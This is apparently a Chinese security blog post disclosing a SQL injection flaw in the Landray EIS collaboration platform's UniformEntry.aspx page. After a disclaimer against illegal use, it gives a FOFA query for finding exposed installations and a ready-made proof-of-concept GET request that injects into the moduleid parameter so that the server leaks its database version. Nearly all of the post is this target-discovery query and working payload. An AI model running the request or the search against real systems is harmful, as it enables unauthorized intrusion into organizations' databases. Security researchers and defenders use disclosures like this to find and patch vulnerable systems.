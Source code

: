 #  蓝凌EIS平台UniformEntry.aspx sql注入漏洞   
 HK安全小屋   2025-03-30 18:03  
  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
  
FOFA:  
```
app="Landray-EIS智慧协同平台"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0ttM5lbOibia3icjVq89tJOJvTPmZ19jaL1wAYbrz5p7s99hggXiayhmSJRCb0nffEHXhJwibia8ibnb5WA/640?wx_fmt=png&from=appmsg "")  
  
  
POC  
```
GET /third/DingTalk/Pages/UniformEntry.aspx?moduleid=1%20and%201=@@version--+ HTTP/1.1
Host:{{Hostname}}
User-Agent:Mozilla/5.0(WindowsNT10.0;Win64;x64;rv:109.0)Gecko/20100101Firefox/109.0响应报文返回数据库版本
```  
  
响应包返回数据库版本  
  
![](https://mmbiz.qpic.cn/mmbiz_png/A8qcyicQXeI0ttM5lbOibia3icjVq89tJOJvZhcIOUDUNNaib6PAfkZ8tjAdJVpLmibibwB56znwFsicuceUiceJtVzt5PA/640?wx_fmt=png&from=appmsg "")  
  
  
  
